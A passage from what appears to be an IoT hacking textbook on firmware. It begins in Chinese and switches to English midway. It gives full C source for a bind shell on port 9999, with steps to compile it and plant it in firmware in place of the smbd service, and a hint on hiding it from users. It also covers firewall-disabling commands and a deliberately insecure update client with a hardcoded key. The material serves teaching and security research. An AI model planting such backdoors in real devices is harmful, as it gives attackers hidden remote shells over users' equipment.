数据包过滤规则列表。每条规则列出了某些网络连接属性，如使用的端口、源 IP 地址和目标 IP 地址，并指定是否允许或阻止具有这些属性的网络连接。如果新的网络连接与任何规则都不匹配，防火墙将使用默认策略。要禁用任何基于 `iptables` 的防火墙，可以使用以下命令将默认策略更改为接受所有连接，然后清除任何现有规则：    ``` $ **iptables --policy INPUT ACCEPT** $ **iptables --policy FORWARD ACCEPT** $ **iptables --policy OUTPUT ACCEPT** $ **iptables -F** ```    现在尝试使用浏览器访问设备的 IP 地址，以访问固件托管的 web 应用程序（图 9-3）。      图 9-3：固件的 web 应用程序      你可能无法访问所有固件的 HTTP 页面，因为其中许多页面需要来自专用硬件组件的反馈，例如 Wi-Fi、重置和 WPS 按钮。FIRMADYNE 很可能不会自动检测并模拟所有这些组件，结果可能会导致 HTTP 服务器崩溃。你可能需要多次重启固件的 HTTP 服务器才能访问某些页面。我们将这部分留给你自行完成。    本章不会涵盖网络攻击，但你可以使用第四章中的信息来识别网络堆栈和服务中的漏洞。首先评估设备的 HTTP 服务。例如，公开访问的页面 */cgi-bin/passrec.asp* 的源代码包含管理员密码。Netgear 已在 [`kb.netgear.com/30490/CVE-2015-8289-Authentication-Bypass-Using-an-Alternate-Path-or-Channel/`](https://kb.netgear.com/30490/CVE-2015-8289-Authentication-Bypass-Using-an-Alternate-Path-or-Channel/) 发布了这个漏洞。    ## 后门固件    *后门代理* 是一种隐藏在计算设备中的软件，允许攻击者获得对系统的未经授权访问。在本节中，我们将通过添加一个微小的后门来修改固件，该后门将在固件启动时执行，提供给攻击者从受害设备获得 shell。除此之外，后门还将允许我们在真实且功能完整的设备上执行动态分析，并获得 root 权限。当 FIRMADYNE 无法正确模拟所有固件功能时，这种方法尤为有用。    作为后门代理，我们将使用 Osanda Malith 编写的一个简单绑定 shell（Listing 9-1）。这个脚本监听新传入的连接到一个预定义的网络端口，并允许远程执行代码。我们在原始脚本中添加了一个 `fork()` 命令，使其能够在后台运行。这样会创建一个新的子进程，该进程并行运行在后台，而父进程简单地终止，并防止调用程序停止。    ``` #include <stdio.h> #include <stdlib.h> #include <string.h> #include <sys/types.h> #include <sys/socket.h> #include <netinet/in.h>  #define SERVER_PORT	9999  /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)   * Bind Shell using Fork for my TP-Link mr3020 router running busybox   * Arch : MIPS   * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc   */ int main() {         int serverfd, clientfd, server_pid, i = 0;         char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";         char *args[] = { "/bin/busybox", "sh", (char *) 0 };         struct sockaddr_in server, client;         socklen_t len; **int x =** **fork(****);** **if (x ==** **0){**         server.sin_family = AF_INET;         server.sin_port = htons(SERVER_PORT);         server.sin_addr.s_addr = INADDR_ANY;           serverfd = socket(AF_INET, SOCK_STREAM, 0);         bind(serverfd, (struct sockaddr *)&server, sizeof(server));         listen(serverfd, 1);      while (1) {          len = sizeof(struct sockaddr);         clientfd = accept(serverfd, (struct sockaddr *)&client, &len);         server_pid = fork();          if (server_pid) {              write(clientfd, banner,  strlen(banner));             for(; i <3 /*u*/; i++) dup2(clientfd, i);             execve("/bin/busybox", args, (char *) 0);             close(clientfd);          } close(clientfd);     }  **}** return 0; } ```    Listing 9-1：修改版 Osanda Malith 的后门脚本 ([`github.com/OsandaMalith/TP-Link/blob/master/bindshell.c`](https://github.com/OsandaMalith/TP-Link/blob/master/bindshell.c))    执行该脚本后，它将在端口 9999 上开始监听，并将通过该端口收到的任何输入作为系统命令执行。    要编译后门代理，我们首先需要设置编译环境。最简单的方法是使用 OpenWrt 项目的频繁更新的工具链。    ``` $ **git clone https://github.com/openwrt/openwrt** $ **cd** **openwrt** $ **.****/scripts/feeds update -a** $ **.****/scripts/feeds install -a** $ **make** **menuconfig** ```    默认情况下，这些命令将为基于 MIPS 处理器的 Atheros AR7 系列的系统芯片（SoC）路由器编译固件。要设置其他值，请点击 **目标系统** 并选择可用的 Atheros AR7 设备之一（图 9-4）。      图 9-4：重新配置 OpenWrt 构建目标环境      然后通过点击 **保存** 选项将更改保存到新配置文件，并通过点击 **退出** 选项退出菜单（图 9-5）。      图 9-5：在 OpenWrt 设置中选择 Atheros 目标      接下来，使用 `make` 命令编译工具链：    ``` $ **make toolchain/install** time: target/linux/prereq#0.53#0.11#0.63 make[1] toolchain/install make[2] tools/compile make[3] -C tools/flock compile … ```    在 OpenWrt 的 *staging_dir/toolchain-mips_24kc_gcc-8.3.0_musl/bin/* 文件夹中，你会找到 *mips-openwrt-linux-gcc* 编译器，你可以按如下方式使用它：    ``` $ **export STAGING_DIR="/root/Desktop/****mips_backdoor****/****openwrt****/****staging_dir****"** $ **./openwrt/staging_dir/toolchain-mips_24kc_gcc-8.3.0_musl/bin/mips-openwrt-linux-gcc** **bindshell.c** **-o** **bindshell****-static -EB -march=24kc** ```    这应该会输出一个名为 *bindshell* 的二进制文件。使用 FIRMADYNE 将二进制文件传输到模拟固件中，并验证它是否正常工作。你可以通过使用 Python 在二进制所在的文件夹中创建一个迷你 web 服务器来轻松实现：    ``` $ **p****ython -m** **SimpleHTTPServer** **8080 /** ```    然后，在模拟固件中，使用 `wget` 命令下载二进制文件：    ``` $ **wget** **http://192.168.1.2:8080/bindshell** Connecting to 192.168.1.2[192.168.1.2]:80 bindshell 100% |*****************************| 68544       00:00 ETA $ **chmod** **+****x .****/****bindshell** $ **.****/****bindshell** ```    为了验证后门代理是否有效，尝试从主机设备使用 Netcat 连接它。一个交互式 shell 应该会出现。    ``` $ **nc** **192.168.1.1 9999** [~] Welcome to @OsandaMalith's Bind Shell ls -l drwxr-xr-x    2 0        0            4096 bin drwxr-xr-x    4 0        0            4096 boaroot drwxr-xr-x    6 0        0            4096 dev … ```    在此阶段，我们需要修补固件，以便能够重新分发它。为此，我们可以使用开源项目 *firmware-mod-kit*。首先使用 `apt-get` 安装必要的系统包：    ``` $ **sudo** **apt-get install git build-essential zlib1g-dev** **liblzma****-dev python-magic** **bsdmainutils** ```    然后使用 `git` 命令从 GitHub 仓库下载该应用程序。这个仓库托管了一个分叉版本的应用程序，因为原始版本已经不再维护。应用程序文件夹中包含一个名为 *./extract-firmware.sh*` 的脚本，你可以使用该脚本通过类似 FIRMADYNE 的过程提取固件。   ````` ``` $ **git clone https://github.com/rampageX/firmware-mod-kit** $ **cd firmware-mod-kit** $ **./extract-firmware.sh D6000-V1.0.0.41_1.0.1.bin**  Firmware Mod Kit (extract) 0.99, (c)2011-2013 Craig Heffner, Jeremy Collake Preparing tools ... … Extracting 1418962 bytes of  header image at offset 0 Extracting squashfs file system at offset 1418962 Extracting 2800 byte footer from offset 9668730 Extracting squashfs files... Firmware extraction successful! Firmware parts can be found in '/root/Desktop/firmware-mod-kit/fmk/*' ```    For the attack to be successful, the firmware should replace an existing binary that runs automatically, guaranteeing that any normal use of the device will trigger the backdoor. During the dynamic analysis phase, we indeed identified a binary like that: an SMB service running at port 445\. You can find the *smbd* binary in the */userfs/bin/smbd* directory. Let’s replace it with the bindshell:    ``` $ **cp bindshell /userfs/bin/smbd** ```    After replacing the binary, reconstruct the firmware using the `build-firmware` script:    ``` $ **./build-firmware.sh** firmware Mod Kit (build) 0.99, (c)2011-2013 Craig Heffner, Jeremy Collake Building new squashfs file system... (this may take several minutes!) Squashfs block size is 128 Kb … Firmware header not supported; firmware checksums may be incorrect.  New firmware image has been saved to: /root/Desktop/firmware-mod-kit/fmk/new-firmware.bin ```    Then use `firmadyne` to verify that when the firmware boots, the bindshell is still working. Using `netstat`, you can verify that the firmware’s SMB service, which normally listens for new connections at port 445, has been replaced with the backdoor agent, which listens for new connections on port 9999:    ``` $ **netstat -a -n -u -t** Active Internet connections (servers and established) Proto Recv-Q Send-Q Local Address           Foreign Address         State       tcp        0      0 0.0.0.0:3333            0.0.0.0:*               LISTEN       `tcp        0      0 0.0.0.0:9999            0.0.0.0:*`               LISTEN       tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN       tcp        0      0 192.168.1.1:23          0.0.0.0:*               LISTEN       tcp        0      0 :::80                   :::*                    LISTEN       tcp        0      0 :::53                   :::*                    LISTEN       tcp        0      0 :::443                  :::*                    LISTEN       udp        0      0 0.0.0.0:57218           0.0.0.0:*                            udp        0      0 192.168.1.1:137         0.0.0.0:*                            udp        0      0 0.0.0.0:137             0.0.0.0:*                            udp        0      0 192.168.1.1:138         0.0.0.0:*                            udp        0      0 0.0.0.0:138             0.0.0.0:*                            udp        0      0 0.0.0.0:53              0.0.0.0:*                            udp        0      0 0.0.0.0:67              0.0.0.0:*                            udp        0      0 :::53                   :::*                                 udp        0      0 :::69                   :::*  ```    Instead of replacing the binary, you could patch the binary to provide the legitimate functionality and the bindshell. This would make users less likely to detect the backdoor. We leave this as an exercise for you to complete.    ## Targeting Firmware Update Mechanisms    A firmware’s update mechanism is a significant attack vector and is one of the top 10 IoT vulnerabilities according to OWASP. The *firmware update mechanism* is the process that fetches a newer version of the firmware, whether through the vendor’s website or an external device such as a USB drive, and installs it by replacing the earlier version. These mechanisms can introduce a range of security problems. They often fail to validate the firmware or use unencrypted network protocols; some lack anti-rollback mechanisms or don’t notify the end user about any security changes that resulted from the update. The update process might also exacerbate other problems in the device, such as the use of hardcoded credentials, an insecure authentication to the cloud component that hosts the firmware, and even excessive and insecure logging.    To teach you about all these issues, we’ve created a deliberately vulnerable firmware update service. This service consists of an emulated IoT device that fetches firmware from an emulated cloud update service. You can download the files for this exercise from the book’s website at [`nostarch.com/practical-iot-hacking/`](https://nostarch.com/practical-iot-hacking/). This update service might be included in the future as part of IoTGoat, a deliberately insecure firmware based on OpenWrt whose goal is to teach users about common vulnerabilities in IoT devices. The authors of this book contribute to that project.    To deliver the new firmware file, the server will listen on TCP port `31337`. The client will connect to the server on that port and authenticate using a preshared hardcoded key. The server will then send the following to the client, in order: the firmware length, an MD5 hash of the firmware file, and the firmware file. The client will verify the integrity of the firmware file by comparing the received MD5 hash with a hash of the firmware file, which it calculates using the same preshared key (which it used to authenticate earlier). If the two hashes match, it writes the received firmware file to the current directory as *received_firmware.gz*.    ### Compilation and Setup    Although you can run the client and the server on the same host, ideally you would run them on separate hosts to mimic a real update process. So we recommend compiling and setting up the two components on separate Linux systems. In this demonstration, we’ll use Kali Linux for the update server and Ubuntu for the IoT client, but you should be able to use any Linux distribution, as long as you’ve installed the proper dependencies. Install the following packages on both machines:    ``` # apt-get install build-essential **libssl****-dev** ```    Navigate to the client directory and use the *makefile* included there to compile the client program by entering the following:    ``` $ **make client** ```    This should create the executable *client* file on the current directory*.* Next, compile the server on the second machine. Navigate to the directory where the *makefile* and *server.c* reside and compile them by entering this command:    ``` $ **make server** ```    We won’t analyze the server code, because in a real security assessment, you’d most likely only have access to the client binary (not even the source code!) from the firmware filesystem. But for educational purposes, we’ll examine the client’s source code to shed some light on the underlying vulnerabilities.    ### The Client Code    Now let’s look at the client code. This program, written in C, is available at [`nostarch.com/practical-iot-hacking/`](https://nostarch.com/practical-iot-hacking/). We’ll highlight only the important parts:    ``` #define PORT 31337 #define FIRMWARE_NAME "./received_firmware.gz" #define KEY "jUiq1nzpIOaqrWa8R21" ```    The `#define` directives define constant values. We first define the server port on which the update service will be listening. Next, we specify a name for the received firmware file. Then we hardcode an authentication key that has already been shared with the server. Using hardcoded keys is a security problem, as we’ll explain later.    We’ve split the code from the client’s `main()` function into two separate listings for better clarity. Listing 9-2 is the first part.   ``` int main(int argc, char **argv) {   struct sockaddr_in servaddr;   int sockfd, filelen, remaining_bytes;   ssize_t bytes_received;   size_t offset;   unsigned char received_hash[16], calculated_hash[16];   unsigned char *hash_p, *fw_p;   unsigned int hash_len;   uint32_t hdr_fwlen;   char server_ip[16] = "127.0.0.1"; 1   FILE *file;    if (argc > 1) 2     strncpy((char *)server_ip, argv[1], sizeof(server_ip) - 1);    openlog("firmware_update", LOG_CONS | LOG_PID | LOG_NDELAY, LOG_LOCAL1);   syslog(LOG_NOTICE, "firmware update process started with PID: %d", getpid());    memset(&servaddr, 0, sizeof(servaddr)); 3   servaddr.sin_family = AF_INET;   inet_pton(AF_INET, server_ip, &(servaddr.sin_addr));   servaddr.sin_port = htons(PORT);   if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)     fatal("Could not open socket %s\n", strerror(errno));    if (connect(sockfd, (struct sockaddr *)&servaddr, sizeof(struct sockaddr)) == -1)     fatal("Could not connect to server %s: %s\n", server_ip, strerror(errno));    /* send the key to authenticate */   write(sockfd, &KEY, sizeof(KEY)); 4   syslog(LOG_NOTICE, "Authenticating with %s using key %s", server_ip, KEY);    /* receive firmware length */   recv(sockfd, &hdr_fwlen, sizeof(hdr_fwlen), 0); 5   filelen = ntohl(hdr_fwlen);   printf("filelen: %d\n", filelen); ```    Listing 9-2: The first half of the insecure firmware update client’s `main(``)` function    The main function begins by defining variables for networking purposes and to store values used throughout the program. We won’t explain the network programming part of the code in detail. Rather, we’ll focus on the high-level functionality. Notice the `server_ip` variable 1, which stores the server’s IP address as a null-terminated C string. If the user doesn’t specify any argument in the command line when starting the client, the IP address will default to the localhost (`127.0.0.1`). Otherwise, we copy the first argument, `argv[1]` (because `argv[0]` is always the program’s filename), to the `server_ip`2. Next, we open a connection to the system logger and instruct it to prepend all messages it receives in the future with the `firmware_update` keyword,``followed by the caller’s process identifier (PID). From then on, every time the program calls the `syslog` function, it sends messages to the */var/log/messages* file—the general system activity log, which is typically used for noncritical, nondebugging messages.``   ````The next code block prepares the TCP socket (through the socket descriptor `sockfd`) 3 and initiates the TCP connection to the server. If the server is listening on the other end, the client will successfully conduct the TCP three-way handshake. It can then begin sending or receiving data through the socket.    The client then authenticates to the server by sending the `KEY` value defined earlier 4. It sends another message to `syslog` indicating that it’s trying to authenticate using this key. This action is an example of two insecure practices: excessive logging and the inclusion of sensitive information in log files. The preshared secret key is now written to a log that unprivileged users might be able to access. You can read more about these issues at [`cwe.mitre.org/data/definitions/779.html`](https://cwe.mitre.org/data/definitions/779.html)and [`cwe.mitre.org/data/definitions/532.html`](https://cwe.mitre.org/data/definitions/532.html).    After the client authenticates successfully, it waits to receive the firmware length from the server, storing that value in `hdr_fwlen`, and then converts it from network-byte order to host-byte order by calling `ntohl` 5.    Listing 9-3 shows the second part of the main function.    ```  /* receive hash */   recv(sockfd, received_hash, sizeof(received_hash), 0); 1    /* receive file */   if (!(fw_p = malloc(filelen))) 2     fatal("cannot allocate memory for incoming firmware\n");    remaining_bytes = filelen;   offset = 0;   while (remaining_bytes > 0) {     bytes_received = recv(sockfd, fw_p + offset, remaining_bytes, 0);     offset += bytes_received;      remaining_bytes -= bytes_received; #ifdef DEBUG     printf("Received bytes %ld\n", bytes_received); #endif   }    /* validate firmware by comparing received hash and calculated hash */   hash_p = calculated_hash;   hash_p = HMAC(EVP_md5(), &KEY, sizeof(KEY) - 1, fw_p, filelen, hash_p, &hash_len); 3    printf("calculated hash: ");   for (int i = 0; i < hash_len; i++)     printf("%x", hash_p[i]);   printf("\nreceived hash: ");   for (int i = 0; i < sizeof(received_hash); i++)     printf("%x", received_hash[i]);   printf("\n");    if (!memcmp(calculated_hash, received_hash, sizeof(calculated_hash))) 4     printf("hashes match\n");   else     fatal("hash mismatch\n");  /* write received firmware to disk */   if (!(file = fopen(FIRMWARE_NAME, "w")))     fatal("Can't open file for writing %s\n", strerror(errno));   fwrite(fw_p, filelen, 1, file); 5    syslog(LOG_NOTICE, "Firmware downloaded successfully"); 6   /* clean up */   free(fw_p);   fclose(file);   close(sockfd);   closelog();   return 0; ```    Listing 9-3: The second half of the insecure firmware update client’s `main(``)` function    After receiving the firmware length (stored in variable `filelen`), the client receives the firmware file’s MD5 hash (stored in variable `received_hash`) 1. Then, based on the firmware length, it allocates enough memory on the heap to receive the firmware file 2. The `while` loop gradually receives the firmware file from the server and writes it in that allocated memory.    The client then calculates the firmware file’s MD5 hash (`calculated_hash`) using the preshared key 3. For debugging purposes, we also print the calculated and received hashes. If the two hashes match 4, the client creates a file in the current directory using a filename taken from the value of `FIRMWARE_NAME`. It then dumps the firmware 5, which was stored in memory (pointed to by `fw_p`), to that file on the disk. It sends a final message to `syslog`6 about completing the new firmware download, does some cleanup, and exits.    ### Running the Update Service    To test the update service, we first execute the server. We do so on an Ubuntu host with the IP address 192.168.10.219\. Once the server starts listening, we run the client, passing it the server’s IP address as its first argument. We run the client on a Kali host with the IP address 192.168.10.10:    ``` root@kali:~/firmware_update# ls client client.c Makefile root@kali:~/firmware_update# ./client 192.168.10.219 filelen: 6665864 calculated hash: d21843d3abed62af87c781f3a3fda52d received hash: d21843d3abed62af87c781f3a3fda52d hashes match  root@kali:~/firmware_update# ls client client.c Makefile received_firmware.gz ```    The client connects to the server and fetches the firmware file. Notice the newly downloaded firmware file in the current directory once the execution completes. The following listing shows the server’s output. Make sure the server is up before you run the client.    ``` user@ubuntu:~/fwupdate$ ./server Listening on port 31337 Connection from 192.168.10.20 Credentials accepted. hash: d21843d3abed62af87c781f3a3fda52d filelen: 6665864 ```    Note that because this is an emulated service, the client doesn’t actually update any firmware after downloading the file.    ### Vulnerabilities of Firmware Update Services    Let’s now inspect the vulnerabilities in this insecure firmware update mechanism.    #### Hardcoded Credentials    First, the client authenticates to the server using a hardcoded password. The use of hardcoded credentials (such as passwords and cryptographic keys) by IoT systems is a huge problem for two reasons: one because of the frequency with which they’re found in IoT devices and the other because of the consequences of their exploitation. Hardcoded credentials are embedded in the binary files rather than in configuration files. This makes it almost impossible for end users or administrators to change them without intrusively modifying the binary files in ways that risk breaking them. Also, if malicious actors ever discover the hardcoded credential by binary analysis or reverse engineering, they can leak it on the internet or in underground markets, allowing anyone to access the endpoint. Another problem is that, more often than not, these hardcoded credentials are the same for each installation of the product, even across different organizations. The reason is that it’s easier for vendors to create one master password or key instead of unique ones for every device. In the following listing, you can see part of the output from running the `strings` command against the *client* binary file, which reveals the hardcoded password (highlighted):    ``` QUITTING! firmware_update firmware update process started with PID: %d Could not open socket %s Could not connect to server %s: %s **jUiq1nzpIOaqrWa8R21** Authenticating with %s using key %s filelen: %d cannot allocate memory for incoming firmware calculated hash:  received hash:  hashes match hash mismatch ./received_firmware.gz Can't open file for writing %s Firmware downloaded successfully ```    Attackers could also discover the key by analyzing the server binary file (which would, however, be hosted on the cloud, making it harder to compromise). The client would normally reside on the IoT device, making it much easier for someone to inspect it.    You can read more about hardcoded passwords at [`cwe.mitre.org/data/definitions/798.html`](https://cwe.mitre.org/data/definitions/798.html).    #### Insecure Hashing Algorithms    The server and client rely on HMAC-MD5 for calculating a cryptographic hash the client uses to validate the firmware file’s integrity. Although the MD5 message-digest algorithm is now considered a broken and risky cryptographic hash function, HMAC-MD5 doesn’t suffer from the same weaknesses. HMAC is a keyed-hash message authentication code that uses a cryptographic hash function (in this case, MD5) and a secret cryptographic key (the preshared key in our example). As of today, HMAC-MD5 has not been proven to be vulnerable to the practical collision attacks that MD5 has. Nevertheless, current security best practices suggest that HMAC-MD5 shouldn’t be included in future cipher suites.    #### Unencrypted Communication Channels    A high-risk vulnerability for the update service is the use of an unencrypted communication channel. The client and server exchange information using a custom cleartext protocol over TCP. This means that if attackers attain a man-in-the-middle position on the network, they could capture and read the transmitted data. This includes the firmware file and the key used for authenticating against the server (Figure 9-6). In addition, because the HMAC-MD5 relies on the same cryptographic key, the attacker could maliciously alter the firmware in transit and plant backdoors in it.    You can read more about this vulnerability at [`cwe.mitre.org/data/definitions/319.html`](https://cwe.mitre.org/data/definitions/319.html).    #### Sensitive Log Files    Last but not least, the client’s logging mechanism includes sensitive information (the `KEY` value) in log files (in this case, the */var/log/messages*). We showed the exact spot this occurred when walking through the client source code. This is a generally insecure practice, because log files typically have insecure file permissions (often, they’re readable by everyone). In many cases, the log output appears in less secure areas of the IoT system, such as in a web interface that doesn’t require admin privileges or a mobile app’s debugging output.      Figure 9-6: A Wireshark screenshot showing the transmission of sensitive information (an authentication key) over an unencrypted TCP protocol      ## Conclusion    In this chapter, we explored firmware reverse engineering and research. Every device has a firmware, and even though analyzing it looks intimidating at first, you can easily learn to do it by practicing the techniques in this chapter. Firmware hacking can extend your offensive security capabilities and is a great skill for your tool set.    Here, you learned the different ways of obtaining and extracting firmware. You emulated a single binary and the whole firmware and loaded a vulnerable firmware to a device. Then you researched and identified vulnerabilities on an intentionally vulnerable firmware service.    To continue practicing targeting a vulnerable firmware, try the OWASP IoTGoat ([`github.com/OWASP/IoTGoat/`](https://github.com/OWASP/IoTGoat/)), a deliberately insecure firmware based on OpenWrt and maintained by OWASP. Or try the Damn Vulnerable ARM Router (DVAR), an emulated Linux-based ARM router that runs a vulnerable web server ([`blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html`](https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html)). Those of you who want to try your skills on a low-cost ($17) physical device can try the Damn Vulnerable IoT Device (DVID). It’s an open source, vulnerably designed IoT device that you can build upon a cheap Atmega328p microcontroller and an OLED screen.```` ````` `````` ```````
